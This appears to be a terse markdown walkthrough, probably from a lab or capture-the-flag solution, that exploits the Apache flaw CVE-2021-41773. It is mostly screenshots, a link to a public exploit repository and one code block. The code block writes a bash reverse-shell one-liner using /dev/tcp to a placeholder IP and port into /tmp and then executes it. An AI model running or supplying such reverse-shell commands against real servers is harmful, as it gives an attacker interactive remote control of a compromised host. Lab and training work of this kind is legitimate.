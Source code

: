 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)



